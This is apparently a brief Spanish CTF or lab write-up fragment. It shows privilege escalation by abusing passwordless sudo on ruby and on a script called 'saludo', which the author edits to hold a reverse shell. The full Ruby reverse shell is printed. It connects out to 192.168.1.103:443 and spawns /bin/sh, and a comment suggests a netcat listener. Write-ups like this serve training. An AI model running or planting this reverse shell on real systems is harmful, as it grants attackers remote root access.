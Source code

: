 ![](attachment/1f7738aae1578723124d80fef908b381.png)
_____
podemos ejecutar como root y sin proporcionar contraseña ruby ademas de un script con nombre saludo.

podemos modificar el script por lo que agregaremos una reverse shell en ruby para que nos otorgue el root.

```ruby
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 443, '192.168.1.103'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```
____
![](attachment/1e7bca95e6944af834d444b0b736021d.png)
______
de esa forma obtenemos el root.